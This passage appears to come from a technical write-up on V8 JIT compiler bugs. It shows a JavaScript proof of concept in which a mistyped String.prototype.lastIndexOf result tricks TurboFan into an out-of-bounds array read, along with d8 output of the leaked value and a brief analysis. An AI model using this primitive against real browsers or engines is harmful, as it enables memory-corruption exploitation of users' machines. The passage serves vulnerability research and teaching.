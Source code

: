 Now, consider the following trigger poc : 

```javascript
SUCCESS = 0;
FAILURE = 0x42;

const str = "____"+"DOARE".repeat(214748359);

let it = 0;

var opt_me = () => {
  const OOB_OFFSET = 5;

  let badly_typed = String.prototype.lastIndexOf.call(str, '');
  badly_typed = Math.abs(Math.abs(badly_typed) + 25);
  badly_typed = badly_typed >> 30;

  let bad = badly_typed * OOB_OFFSET;
  let leak = 0;

  if (bad >= OOB_OFFSET && ++it < 0x10000) {
    leak = 0;
  }
  else {
    let arr = new Array(1.1,1.1);
    arr2 = new Array({},{});
    leak = arr[bad];
    if (leak != undefined) {
      return leak;
    }
  }
  return FAILURE;
};

let res = opt_me();
for (let i = 0; i < 0x10000; ++i)
  res = opt_me();
%DisassembleFunction(opt_me); // prints nothing on release builds
for (let i = 0; i < 0x10000; ++i)
  res = opt_me();
print(res);
%DisassembleFunction(opt_me); // prints nothing on release builds

```

Checkout the result : 

```text
$ d8 poc.js
1.5577100569205e-310
```

It worked despite those aborting bound checks. Why?
The line `leak = arr[bad]` didn’t lead to any CheckBounds elimination and yet we didn't execute any Unreachable node (aka breakpoint instruction).
